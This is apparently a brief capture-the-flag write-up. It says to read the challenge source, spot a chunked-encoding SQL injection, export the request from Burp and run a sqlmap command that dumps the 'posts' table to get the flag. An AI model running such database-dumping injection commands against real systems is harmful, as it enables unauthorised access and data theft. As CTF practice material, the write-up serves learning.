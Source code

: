 you have to read the code, and notice the chunked vulnerability

Steps : 
* export the request from burp (copy to file)
* run sql query `python sqlmap.py -r /tmp/req.txt --level 5 --risk 3  --ignore-code=500 --dump -T posts --threads 10 --chunked`

you'll get the flag